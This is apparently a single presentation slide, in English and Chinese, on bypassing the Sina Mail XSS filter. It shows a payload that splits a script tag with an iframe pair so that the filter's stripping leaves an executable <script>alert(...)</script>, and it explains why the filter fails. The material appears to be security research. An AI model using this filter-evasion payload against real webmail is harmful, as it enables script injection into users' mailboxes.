

# Bypass sina mail xss filter
111<script>alert(/xeye/)<<iframe></iframe>/script>222
这是典型的xss filter缺陷
过滤了<iframe></iframe>
<script>单独时并不被过滤
从而导致过滤后变为
111<script>alert(/xeye/)</script>222
…
邮箱的bypass从来就是热门研究对象，尤其是yahoo/hotmail/gmail:)